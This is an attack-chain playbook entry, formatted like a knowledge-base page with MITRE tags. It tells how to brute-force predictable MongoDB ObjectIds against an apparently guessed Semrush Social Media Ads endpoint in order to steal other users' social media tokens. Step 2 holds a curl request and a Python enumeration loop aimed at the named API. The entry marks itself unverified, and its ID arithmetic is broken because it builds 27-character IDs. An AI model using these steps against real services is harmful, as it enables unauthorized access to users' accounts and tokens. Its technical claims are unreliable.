

---
tags:
  - idor
  - mongodb
  - brute-force
  - token-theft
  - semrush
type: attack_chain
tools: []
tactics:
  - '[[Discovery]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Analyze-MongoDB-ObjectId-Predictability]]'
  - '[[procedures/Brute-Force-User-IDs-for-Token-Access]]'
step_count: 2
techniques:
  - '[[Account Discovery]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:25:47.722Z'
description: >-
  A multi-stage attack exploiting Insecure Direct Object Reference (IDOR) in
  Semrush's Social Media Ads service by brute-forcing predictable MongoDB
  ObjectIds to access unauthorized user social media tokens.
skill_level: intermediate
impact_level: high
id: b204657d-671a-45fc-b876-63f50cfe2511
validated: true
mitre_tactics:
  - '[[Discovery]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Account Discovery]]'
  - '[[Exploit Public-Facing Application]]'
---
# IDOR Exploitation in Semrush Social Media Ads via Predictable MongoDB ObjectIds for Token Theft

Multi-stage attack chain demonstrating a complete attack workflow exploiting IDOR in Semrush's Social Media Ads service.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser Developer Tools
- Scripting tool (e.g., Python with requests library) for brute-forcing

### Target Environment

- Web platform
- Semrush Social Media Ads service
- MongoDB backend for ID generation

### Initial Access Requirements

- Authenticated access to Semrush account
- Network access to Semrush API endpoints
- No special privileges needed beyond basic user

## Detailed Attack Procedures

### Step 1: Analyze MongoDB ObjectId Predictability
procedure: [[procedures/Analyze-MongoDB-ObjectId-Predictability]]

**Objective**: Identify the predictable structure of MongoDB ObjectIds to enable brute-force enumeration.

**Instructions**: Inspect your own user ID from API responses in the Social Media Ads service using browser developer tools. Note the ObjectId format: 4-byte timestamp (seconds since Unix epoch), 5-byte random value (machine/process-specific), and 3-byte incrementing counter. The timestamp component is guessable based on creation time, and the counter increments sequentially, making IDs predictable within a time window.

For example, extract your ID from a response:

```javascript
// In browser console or API response
console.log(userId); // e.g., "507f1f77bcf86cd799439011"
```

Break down the ID: First 4 bytes as hex timestamp, convert to Unix time to estimate creation window.

**Expected Output**: Understanding of ID components, e.g., timestamp around current epoch, allowing prediction of nearby IDs.

**Success Indicators**:
- ID structure confirmed as predictable
- Estimated time window for brute-force identified

### Step 2: Brute-Force User IDs for Token Access
procedure: [[procedures/Brute-Force-User-IDs-for-Token-Access]]

**Objective**: Enumerate and access other users' social media tokens by submitting predicted IDs to the vulnerable endpoint.

**Instructions**: Use a script or tool to generate sequential IDs around your own (varying the counter and slight timestamp offsets). Send requests to the Social Media Ads endpoint that retrieves user data by ID, such as `/api/social-ads/users/{id}/token`.

Example using curl to test a single ID (replace with predicted hex ID):

```bash
curl -H "Authorization: Bearer YOUR_TOKEN" -X GET "https://api.semrush.com/social-ads/users/507f1f77bcf86cd799439012/token"
```

For brute-force, script in Python:

```python
import requests

base_id = "507f1f77bcf86cd799439000"  # Base from analysis
headers = {"Authorization": "Bearer YOUR_TOKEN"}

for i in range(1000):  # Vary counter
    test_id = f"{base_id[:-3]}{i:06x}"  # Append incrementing counter
    response = requests.get(f"https://api.semrush.com/social-ads/users/{test_id}/token", headers=headers)
    if response.status_code == 200 and 'token' in response.json():
        print(f"Found token for ID {test_id}: {response.json()['token']}")
        break
```

Adjust timestamp bytes if needed for broader range.

**Expected Output**: API response containing another user's social media token, e.g., {"token": "fb_access_token_abc123"}.

**Success Indicators**:
- Unauthorized token retrieved
- Confirmation of access to other user's advertising data

## Attack Chain Summary

### Key Achievements

1. Identified predictability in MongoDB ObjectId generation
2. Successfully brute-forced IDs to access unauthorized tokens
3. Demonstrated potential for social media account compromise via token misuse

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Account Discovery]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Discovery]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
